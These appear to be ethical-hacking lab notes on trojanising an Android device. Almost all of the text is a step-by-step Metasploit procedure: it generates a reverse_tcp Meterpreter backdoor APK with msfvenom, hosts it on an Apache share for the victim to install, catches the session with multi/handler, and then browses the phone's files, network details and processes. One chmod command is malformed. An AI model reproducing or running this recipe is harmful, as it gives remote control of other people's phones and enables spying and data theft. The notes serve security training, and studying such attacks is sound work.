 - Attackers use various tools such as Metasploit to create binary payloads, which are sent to the target system to gain control over it.
- Meterpreter is a Metasploit attack payload that provides an interactive shell that can be used to explore target machines and execute code.
- Open Terminal
	> sudo su
	> cd
	> service postgresql start (to start database service)
	> msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST= #hostip R>Desktop/Backdoor.apk (to generate a backdoor, or reverse meterpreter application)
	- This command creates an APK (**Backdoor.apk**) on **Desktop** under the **Root** directory.

- Now, share or send the **Backdoor.apk** file to the victim machine.
	- In this task, we are sending the malicious payload through a shared directory, but in real-life cases, attackers may send it via an attachment in an email, over Bluetooth, or through some other application or means.
- To Create a shared folder
	- mkdir /var/www/html/share (to create a shared folder)
	- chmod -R /var/www/html/share 
	- chown -R www-data:www-data /var/www/html/share 

	> service apache2 start (to start apache web server)
	> cp /root/Desktop/Backdoor.apk /var/www/html/share/ (to copy Backdoor.apk file to the location share folder)
	
	> msfconsole (to launch metasploit framework)
	> use exploit/multi/handler
			> set payload android/meterpreter/reverse_tcp 
			> set LHOST #hostip 
			> show options (shows listening port)
			> exploit -j -z (runs exploit as background job)
			


- Switch to Android machine (as victim)
- browse http:// #hostip/share in browser
- The **Index of /share** page appears; click **Backdoor.apk** to download the application package file and install



- Switch back to host/attacker machine to see that the **meterpreter** session has been opened successfully.
	> sessions -i 1(meterpreter session is launched)
	
	> sysinfo (Issuing this command displays the information the target machine such as computer name, OS, etc)
	> ipconfig (to display the victim machine’s network interfaces, IP address (IPv4 and IPv6), MAC address, etc)
	
	> pwd (to view the current or present working directory on the remote (target) machine)
	> cd /sdcard (to change the current remote directory to **sdcard**)
	
	> ps (to view the current processes running in the system)
	
	- Because of poor security settings and a lack of awareness, if an individual in an organization installs a backdoor file on their device, the attacker gains control of the device. The attacker can then perform malicious activities such as uploading worms, downloading data, and spying on the user’s keystrokes, which can reveal sensitive information related to the organization as well as the victim
